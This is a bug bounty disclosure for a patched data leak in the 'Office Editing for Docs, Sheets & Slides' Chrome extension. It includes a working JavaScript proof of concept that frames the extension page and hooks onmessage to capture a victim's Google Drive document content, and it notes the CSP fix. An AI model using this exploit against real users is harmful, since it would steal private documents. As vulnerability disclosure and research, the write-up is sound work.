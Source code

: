 ```yaml
---
title: Office Editing for Docs, Sheets & Slides leak (Awarded $3133.70)
---
```


**URL:** <https://chromewebstore.google.com/detail/office-editing-for-docs-s/gbkeegbaiigmenfmjfclcdgdpimamgkj>

**PoC video:** <https://youtu.be/r0ajiPGLh0M>

### Details

- **Replace `msofficeDocId` with the doc ID of a `pptx`/`docx` file you uploaded to google drive**
- It does not need to be shared with anyone.
- 3rd party cookies are required to be enabled however with browser heuristics this can be automatic for example it gets allowed if you open and interact with a popup on Chrome.

```js
let msofficeDocId = '1DuGHZhNFjJFCtOXVkA91t5o92Y3BRJ1u';

setInterval(() => {
if (window.f) document.body.removeChild(f);
f=document.createElement('iframe');
f.width=500;
f.height=500;
f.src='chrome-extension://gbkeegbaiigmenfmjfclcdgdpimamgkj/views/app.html?state=%7B"ids":%5B"' + msofficeDocId + '"%5D,"action":"open","resourceKeys":%7B%7D%7D';

document.body.appendChild(f);

 let loop = setInterval(() => {
 // Wait for iframes to load
 if (f.contentWindow.length !== 2) return;
 clearInterval(loop);

 setTimeout(() => {

 f.contentWindow[0].location = 'about:blank';
 let loop2 = setInterval(() => {
  try {
  // Monitor for leaks via onmessage
  f.contentWindow[0].onmessage = (e) => {
     console.log('Data leaked :) '+ JSON.stringify(e.data));
  }
  clearInterval(loop2);
  } catch {}
 }, 0);
 // Wait a bit for the sandbox to request document content
 }, 600);

}, 0)

// Retry ever 2 seconds
}, 2000);
```

This issue was fixed by adding `frame-ancestors 'self'` to the `extension_pages` content security policy.

### Attack scenario

Attacker websites can leak data from a user's google drive if they know the doc id.
